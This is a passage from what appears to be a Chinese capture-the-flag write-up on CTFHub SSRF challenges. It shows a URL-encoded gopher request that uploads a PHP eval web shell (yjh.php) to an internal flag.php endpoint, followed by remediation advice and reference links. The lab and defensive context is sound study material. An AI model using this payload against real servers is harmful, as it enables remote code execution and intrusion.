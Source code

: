 ```
POST%2520/flag.php%2520HTTP/1.1%250D%250AHost:%2520127.0.0.1:80%250D%250AUser-Agent:%2520Mozilla/5.0%2520(Windows%2520NT%252010.0;%2520Win64;%2520x64;%2520rv:84.0)%2520Gecko/20100101%2520Firefox/84.0%250D%250AAccept:%2520text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8%250D%250AAccept-Language:%2520zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2%250D%250AAccept-Encoding:%2520gzip,%2520deflate%250D%250AContent-Type:%2520multipart/form-data;%2520boundary=---------------------------22285140113870486144781081380%250D%250AContent-Length:%2520379%250D%250AOrigin:%2520http://challenge-ad7efe5d754337a9.sandbox.ctfhub.com:10080%250D%250AConnection:%2520close%250D%250AReferer:%2520http://challenge-ad7efe5d754337a9.sandbox.ctfhub.com:10080/?url=127.0.0.1/flag.php%250D%250AUpgrade-Insecure-Requests:%25201%250D%250A%250D%250A-----------------------------22285140113870486144781081380%250D%250AContent-Disposition:%2520form-data;%2520name=%2522file%2522;%2520filename=%2522yjh.php%2522%250D%250AContent-Type:%2520application/octet-stream%250D%250A%250D%250A%253C?php%2520@eval($_POST%255B'a'%255D);%250D%250A-----------------------------22285140113870486144781081380%250D%250AContent-Disposition:%2520form-data;%2520name=%2522submit%2522%250D%250A%250D%250A%25E6%258F%2590%25E4%25BA%25A4%25E6%259F%25A5%25E8%25AF%25A2%250D%250A-----------------------------22285140113870486144781081380--%250D%250A
```

进行`gopher`协议的使用，就可以成功得到`flag`：

![][13]

# 修复建议

- 禁用不需要的协议，只允许 HTTP 和 HTTPS 请求，可以防止类似于 file://, gopher://, ftp:// 等引起的问题。

- 白名单的方式限制访问的目标地址，禁止对内网发起请求

- 过滤或屏蔽请求返回的详细信息，验证远程服务器对请求的响应是比较容易的方法。如果 web 应用是去获取某一种类型的文件。那么在把返回结果展示给用户之前先验证返回的信息是否符合标准。

- 验证请求的文件格式

- 禁止跳转

- 限制请求的端口为 http 常用的端口，比如 80、443、8080、8000 等

- 统一错误信息，避免用户可以根据错误信息来判断远端服务器的端口状态。

参考文章：

- [WEB 安全 SSRF 中 URL 的伪协议][14]
- [CTFHUB-技能树-Web-SSRF(上) - Web_Fresher - 博客园][15]
- [CTFHub-SSRF 部分（已完结）][16]
- [我在 CTFHub 学习 SSRF][17]
- [Web 常见漏洞描述及修复建议][18]

[1]: https://www.ctfhub.com/#/index
[2]: https://img.soapffz.com/archives_img/2020/12/26/archives_20201226_012800.png
[3]: https://img.soapffz.com/archives_img/2020/12/26/archives_20201226_012936.png
[4]: https://img.soapffz.com/archives_img/2020/12/26/archives_20201226_012958.png
[5]: https://img.soapffz.com/archives_img/2020/12/26/archives_20201226_013021.png
[6]: https://img.soapffz.com/archives_img/2020/12/26/archives_20201226_013152.png
[7]: https://gchq.github.io/CyberChef/
[8]: https://img.soapffz.com/archives_img/2020/12/26/archives_20201226_013522.png
[9]: https://img.soapffz.com/archives_img/2020/12/26/archives_20201226_013613.png
[10]: https://img.soapffz.com/archives_img/2020/12/26/archives_20201226_013714.png
[11]: https://img.soapffz.com/archives_img/2020/12/26/archives_20201226_013907.png
[12]: https://img.soapffz.com/archives_img/2020/12/26/archives_20201226_013935.png
[13]: https://img.soapffz.com/archives_img/2020/12/26/archives_20201226_014115.png
[14]: https://www.cnblogs.com/-mo-/p/11673190.html
[15]: https://www.cnblogs.com/Web-Fresher/p/13723103.html
[16]: https://blog.csdn.net/rfrder/article/details/108589988
[17]: https://www.freebuf.com/articles/web/258365.html
[18]: https://mp.weixin.qq.com/s/saNLDe4OprhrsdfQ2scmpg